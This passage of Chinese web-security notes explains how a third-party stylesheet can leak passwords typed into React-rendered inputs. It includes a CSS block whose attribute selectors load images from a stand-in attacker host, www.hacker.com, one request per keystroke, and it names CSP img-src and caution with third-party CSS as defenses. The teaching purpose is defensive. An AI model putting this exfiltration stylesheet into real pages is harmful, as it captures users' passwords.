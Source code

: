 #### 7. 第三方css偷取密码问题

> [这篇文章](http://blog.minfive.com/2018/02/23/2018-02-23-css-hacker/)讲的相当详细了

- 前提知识：
    - css选择器中存在这一种选择器：`input[type="password"][value$="1"]`,表示会选中 密码输入框中 属性value的值以1结尾的input框
    - 默认情况下，在input中输入什么值，是不会直接反馈到input元素上的，比如input中输入123，html中，input的结构还是`<input type="" />`,不会增加一个value="123" 的属性，要通过document.querySelector('input').value的方式才能获取到值。
    - 有些前端框架，比如react，则会将input的value值，直接写到input的dom结构上，比如input中输入123，html中，input的结构还是`<input type="" value="123" />`，查看<https://www.runoob.com/try/try.php?filename=try_react_form>，打开控制台就能验证。
    - 结合前面的，`input[type="password"][value$="1"] { background-image: url("http://www.hacker.com/1"); }`这段代码的含义就是，给value属性的值以1结尾的input，加上一个背景图。隐含的操作是：当输入框中输入1时，会向http://www.hacker.com/1发送一个请求，告诉该站点，用户输入了一个1。

- 工作流程：
    - 假设页面上加载了一段第三方的css文件:ui.css,css的内容如下，页面的框架是react。
    - 以用户将在input框中输入值为 123456的密码为例.
    - 当用户输入1时，input的结构为`<input type="" value="1" />`,value属性以1结尾,此时背景css生效，将加载http://www.hacker.com/1 这个图片，即发送出去了`http://www.hacker.com/1`的get请求。
    - 用户紧接着输入2，input的结构为`<input type="" value="12" />`,value属性以2结尾,此时背景css生效，将加载http://www.hacker.com/2 这个图片，即发送出去了`http://www.hacker.com/2`的get请求。
    - 以此类推，www.hacker.com站点上将收到 `http://www.hacker.com/1-6`的请求，通过分析access log日志，可以简单的知道用户输入的值为123456。
    - 当然这个过程，本身会复杂的多，比如：如何保证请求有序发送出去，如何处理缓存。但是的确提供了一种窃取思路。

- 防御：
    - 谨慎加载第三方css
    - CSP 大法又来了：`Content-Security-Policy: img-src`指令指定图像和网站图标的有效来源
        - 设置图片只能来至当前页面的源：`Content-Security-Policy: img-src 'self'`
        - 设置图片只能来至指指定站点源：`Content-Security-Policy: img-src https://*.futunn.com https://*.futu5.com`
        - 其他的源会被浏览器拦截，无法进行图片加载

```css
input[type="password"][value$="1"] { background-image: url("http://www.hacker.com/1");
input[type="password"][value$="2"] { background-image: url("http://www.hacker.com/2");
input[type="password"][value$="3"] { background-image: url("http://www.hacker.com/3");
input[type="password"][value$="4"] { background-image: url("http://www.hacker.com/4");
input[type="password"][value$="5"] { background-image: url("http://www.hacker.com/5");
input[type="password"][value$="6"] { background-image: url("http://www.hacker.com/6");
...
/*后面省略value$="各种字符"的css*/
```

#### 8. 302跳转劫持问题

#### 9. cdn劫持
https://blog.csdn.net/bigsec/article/details/79458398
https://www.cnblogs.com/pluslius/archive/2018/11/02/9895047.html

#### 10. 可执行文件上传漏洞

#### 11. http明文传输本身存在问题

**到底如何不安全了？**
